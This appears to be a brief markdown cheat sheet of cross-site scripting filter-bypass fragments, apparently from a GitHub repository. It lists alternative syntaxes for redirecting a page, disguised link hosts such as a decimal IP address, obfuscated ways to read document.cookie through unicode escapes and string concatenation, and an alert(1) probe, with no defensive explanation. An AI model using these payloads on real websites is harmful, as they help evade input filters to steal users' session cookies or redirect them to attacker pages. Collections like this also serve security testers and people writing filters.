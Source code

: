 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link

```
//google.com/?=a
//134744072:1234/?a= (decimal ip)
```

### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
window["doc"+"ument"]["cookie"]
```

### Alert
```
alert(1)

```

